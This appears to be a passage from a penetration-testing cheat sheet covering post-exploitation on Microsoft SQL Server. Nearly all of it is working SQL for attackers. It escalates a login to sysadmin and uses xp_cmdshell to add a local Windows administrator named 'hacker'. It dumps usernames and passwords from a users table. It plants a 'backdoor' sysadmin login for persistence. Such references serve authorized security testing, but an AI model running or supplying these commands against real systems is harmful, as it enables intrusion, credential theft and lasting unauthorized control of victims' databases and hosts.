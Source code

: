 ## Post-Exploitation

### Privilege Escalation

#### Database Roles
```sql
-- Check current user
SELECT SYSTEM_USER, USER_NAME(), USER;

-- Check database roles
SELECT IS_SRVROLEMEMBER('sysadmin');
SELECT IS_SRVROLEMEMBER('dbcreator');
SELECT IS_SRVROLEMEMBER('bulkadmin');

-- Add user to sysadmin role
EXEC sp_addsrvrolemember 'user', 'sysadmin';
```

#### Service Account
```sql
-- Check service account
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'whoami /priv';

-- If running as SYSTEM/high privilege account
EXEC xp_cmdshell 'net user hacker password123 /add';
EXEC xp_cmdshell 'net localgroup administrators hacker /add';
```

### Data Extraction
```sql
-- List databases
SELECT name FROM sys.databases;

-- List tables
SELECT table_name FROM information_schema.tables;

-- Extract data
SELECT * FROM database.dbo.users;
SELECT username, password FROM database.dbo.users;
```

### Persistence

#### Create Backdoor User
```sql
-- Create SQL user
CREATE LOGIN backdoor WITH PASSWORD = 'P@ssw0rd123';
EXEC sp_addsrvrolemember 'backdoor', 'sysadmin';
```
